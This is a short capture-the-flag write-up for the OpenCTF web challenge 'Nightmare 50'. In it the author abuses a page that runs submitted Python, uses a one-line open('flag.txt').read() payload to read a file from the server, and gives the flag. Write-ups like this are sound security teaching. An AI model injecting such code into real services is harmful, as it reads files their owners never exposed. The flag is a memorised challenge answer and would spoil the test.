 ```yaml
---
title: "OpenCTF : Nightmare 50"
date: 2025-01-15
categories: 
  - "general"
---
```


**Category:** Web

**Points:** 50

**Description:**

```
Automated home work scoring my ass. https://shades-of-nightmare.openctf.com/nzpoixyucvkjwnerntasdfascdvasdfqwerqwe/nightmare-50/
```

When connecting to this website in my browser, I receive the following prompt:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
```

So it looks like this will execute the Python code you provide. So I test it with the following:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print('Hello world')
Hello world
```

And then it immediately closes the connection. So it looks like it only allows a single line of Python code.

I then decide to try and dump the working directory file contents. This can be done with `os.listdir('.')`, however, this would require a call to `import os`. Unfortunately, it appears some or all imports are blocked, as an error was returned. So instead, I decide to just guess that there exists a file either called `flag.txt` or `flag` in the working directory, and luckily, opening and reading files doesn’t require any imports. So I construct a one-liner to do just that: `print(open('flag.txt','r').read())`.

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print(open('flag.txt','r').read())
ThisIsAVeryFl@ggyFlag
```

# Flag

**ThisIsAVeryFl@ggyFlag**

Go to Source
